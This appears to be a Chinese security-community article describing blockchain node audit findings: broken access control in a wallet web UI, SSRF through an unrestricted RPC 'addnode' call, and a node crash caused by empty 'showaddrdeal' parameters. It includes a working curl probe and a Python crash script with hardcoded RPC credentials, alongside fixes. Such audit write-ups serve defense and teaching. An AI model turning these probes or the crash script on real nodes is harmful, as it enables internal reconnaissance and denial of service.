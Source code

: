 

# 公链自身的应用层漏洞案例浅析 - 先知社区

公链自身的应用层漏洞案例浅析

- - -

## 文章前言

随着区块链技术的快速发展和广泛应用，公链上的应用程序也变得越来越多，然而与传统的应用程序一样，公链自身应用层也面临着各种安全问题和漏洞，公链应用层漏洞是指在公链上开发的应用程序中存在的安全漏洞和弱点，这些漏洞可能会导致恶意攻击者利用系统的弱点进行各种攻击，例如：盗取用户资金、篡改数据、执行恶意合约等，在本文中我们将以几个常见的公链应用层漏洞类型进行介绍并提供简单的示例和说明

## 攻防案例

### WEB UI 访问控制

#### 基本介绍

公链前端 Web UI(用户界面) 是公链应用层中的一个重要组成部分，它提供了用户与公链应用程序进行交互的界面，公链前端 Web UI 通常以网页形式呈现，用户可以通过网页浏览器访问和操作公链应用

#### 主要功能

公链前端 Web UI 的功能包括但不限于以下几个方面：

-   用户账户管理：公链前端 Web UI 允许用户创建、导入和管理他们的账户，用户可以生成公私钥对、设置密码、备份和恢复账户等操作
-   资产查看和转账：公链前端 Web UI 显示用户的资产余额和交易历史，用户可以查看他们的数字货币余额，执行转账操作，发送和接收数字货币
-   智能合约交互：公链前端 Web UI 提供与智能合约进行交互的功能，用户可以通过界面调用智能合约的方法、查看合约状态和执行合约交易
-   交易历史和区块浏览：公链前端 Web UI 显示公链上的交易历史和区块信息，用户可以查看特定交易的详情，浏览最新的区块和区块链的状态
-   用户身份验证和安全性：公链前端 Web UI 提供用户身份验证和安全性措施，确保用户的账户和交易信息的安全，这可能包括密码加密、双重身份验证等安全功能

#### 审计示例

在对某公链进行安全审计时发现公链提供了 web UI 交互式界面，遂对 web 界面的安全性进行了黑盒测试，发现未进行身份认证的用户在点击相关功能模块时会优先跳转到该功能模块，之后才会判断当前用户是否已经通过身份认证，如果没有通过会跳转到登录认证页面，同时部分接口存在访问控制缺陷，攻击者可以通过 burpsuite 让页面优先停留在功能模块页面之后通过调用相关接口来查看敏感信息或者执行敏感操作，下面以 wallet 为例做说明：  
对源代码进行跟踪分析发现，在源代码中的 app.controllers.js 文件中有一个用于监听页面更改的逻辑设计，但是在这里页面的更新却先于判断用户是否通过认证的逻辑，存在设计缺陷，具体代码如下：  
[![](assets/1706771821-0d14ece9a6aabc5d90d0c3c1af13a482.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105225-6eb933c2-be51-1.png)  
wallet.controller.js 逻辑设计

[![](assets/1706771821-b8b76745d5a17ab5ba03d2b7c41c1267.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105243-799a447a-be51-1.png)  
之后对 WalletCtrl 进行了跟踪分析，在 WalletController 类中发现对于钱包的各种操作（创建地址账户、删除地址账户、导入地址账户、获取钱包信息等）接口在调用之前未对调用者身份进行认证：  
walletControaller 处理逻辑：  
[![](assets/1706771821-496ff8b8bb2214f6f605ce702373519d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105301-8481b422-be51-1.png)  
walletService 处理逻辑  
[![](assets/1706771821-75515c8badd5a401e029803b5d5337ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105318-8e663396-be51-1.png)

未认证的用户点击“wallet”选项会先进入 wallet 界面后跳转至认证页面：  
[![](assets/1706771821-fe3403006e597b7f26e96be6c51c97a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104126-e60f44c2-be4f-1.png)

之后可以好看到钱包的地址账户信息

[![](assets/1706771821-70023e5ae8451d3d5d5016fae7a4fc8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104328-2e9adddc-be50-1.png)  
之后点击“删除账号，在新弹出的框汇总点击"确认"

[![](assets/1706771821-12fb1dfa5226ac318a5ce4f9c6059aa8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104401-4235418e-be50-1.png)

之后account#10账号成功删除：  
[![](assets/1706771821-3abac757129842303e06e1717a1ce81c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104836-e63f31ae-be50-1.png)  
如果攻击者可以物理接触并获取到 seed phrase 则可以本地 web 实现转账，无视这里的认证

[![](assets/1706771821-bb904c4c114f3981fd23d01a64a1f817.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105000-18138b94-be51-1.png)

同时可以创建账号：

[![](assets/1706771821-8820ef3a99cd146061e442c42a76db2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105033-2bd32bb2-be51-1.png)  
也可以查看新建的地址账户：

[![](assets/1706771821-08f25b285ba340e93a99b2f09e6b625f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105136-51ab4630-be51-1.png)

### 添加节点处 SSRF

#### 风险说明

当公链允许 RPC 远程调用，且无需认证或认证口令较弱可以通过爆破的方式进行破解的情况下，攻击者可以利用 RPC 远程“添加节点”的功能进行 SSRF 攻击，例如通过对特定的 IP 地址和端口组合结合服务器端响应的时间（端口开放则妙级响应，端口未开放则超时 5s 响应）探测服务器端私有 IP 地址的端口开放情况，用于后续攻击测试

#### 漏洞详情

在添加节点 RPC 接口处未对目标 IP 地址作限制，攻击者可通过构造特定的 IP 地址和端口组合并结合服务端响应时间探测服务端私有 IP 的端口开放情况，用于进一步攻击。  
addnode 逻辑设计：

[![](assets/1706771821-c644e406b9581f9b3e2c24bb8e624208.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105531-ddb176fe-be51-1.png)  
请求测试参数

```plain
curl --user rubyrpc:BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC --data-binary '{"jsonrpc": "2.0", "id":"rpcaddnode", "method": "addnode", "configs": ["127.0.0.1:6379", "onetry"] }' -H 'content-type: text/plain;' http://192.168.11.192:5112
{"result":null,"error":null,"id":"rpcaddnode"}
```

[![](assets/1706771821-59e129e7a4cdda94f70a0d0556486020.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105552-e9e37666-be51-1.png)  
节点端开启的端口监听成功捕获到请求源：

[![](assets/1706771821-4c36e6cc4f5e17b9ec961d167a0e8e12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105603-f0e12008-be51-1.png)

#### 防御措施

校验目标节点 IP 地址，防止添加本地循环地址被攻击者用于恶意探测本地开放端口服务，同时远程 RPC 调用时进行身份认证

### RPC 参数畸形请求导致 DDOS

#### 基本介绍

公链 RPC(远程过程调用) 接口是公链提供的一种方式，允许外部应用程序通过网络与公链进行通信和交互，RPC 接口提供了一组命令和方法，允许开发者查询和操作公链的状态、执行交易、访问智能合约等功能

#### 漏洞简介

之前在做一个公链审计的时候，发现一个有趣的现象，当用户调用 Showaddrdeal 来查看 address，txid 等详细交易信息时，如果传入的 address 为根节点或者传入的 txid 不存在、为空、非法都会导致根节点直接 Crash，很是有意思，后期发现是因为后端未做合法性校验导致的  
showaddrdeal 逻辑：

[![](assets/1706771821-ed6527034b02bc0de6af57b6726d1fce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105913-61f3749e-be52-1.png)  
测试脚本：

```plain
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests

def exp():
    URL = "http://192.168.11.192:5112"
    data = {
        "jsonrpc": "2.0",
        "method": "showaddrdeal",
        "configs":["18qNoDvvfNgCFa29rNVvvM3ZKi1MpsgSZZQUiJ",""],
        "id":"rpcshowaddrdeal"
   }
   s = requests.session()
   s.auth = ('xxxrpc','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(1):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```

运行脚本后：

[![](assets/1706771821-300af5dc8743ab72c4cc43ed36010867.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105956-7b603c82-be52-1.png)

之后远程 RPC 无法正常调用，被拒绝连接：

[![](assets/1706771821-8e41be7515351179a51d63a4779abf46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110013-8595f2b4-be52-1.png)

#### 修复方法

下面的修复方法是经过后期与客户商议之后一起总结的，后期发现客户的修复没有问题，再次测试未出现相关安全问题：  
showaddrdeal 新增验证参数为空的验证：

[![](assets/1706771821-1f1f6f0ddcd74252b4283e78320a83cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110045-99018354-be52-1.png)

## 文末小结

本篇文章简单的介绍了一下公链应用层方面的几个安全漏洞示例，主要包括了 WEB UI 的安全、RPC 接口的安全等，从公链源代码进行了简易的刨析，当然公链中还有很多的应用层面的漏洞值得大家去思考和挖掘，例如：RCP 的其他安全问题 (DOS、鉴权错误、未授权等)、Geth 的安全问题、安全策略问题等等
